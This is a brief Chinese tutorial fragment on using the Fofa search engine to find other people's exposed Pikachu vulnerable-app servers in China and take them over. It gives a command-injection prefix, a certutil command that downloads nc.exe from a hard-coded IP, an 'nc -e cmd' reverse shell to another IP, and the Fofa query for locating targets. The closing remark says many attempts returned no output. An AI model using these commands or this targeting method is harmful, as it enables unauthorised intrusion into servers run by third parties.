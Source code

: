 - 结合案例2：学会了有手就行-Fofa拿下同行Pikachu服务器

```plain
文件下载&反弹Shell:前面要带上 127.0.0.1&
certutil -urlcache -split -f http://47.100.167.248/NC.exe nc.exe
nc -e cmd 47.75.212.155 5566
语法："pikachu"&&country="CN"&&title=="Get the pikachu"
用命令把nc上传到对方服务器，然后在代码执行反弹cmd命令
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816737-8bea1cb3-28ae-4c70-bb7d-60bf4cee910b.png)

但是我很多执行后，没有回显结果。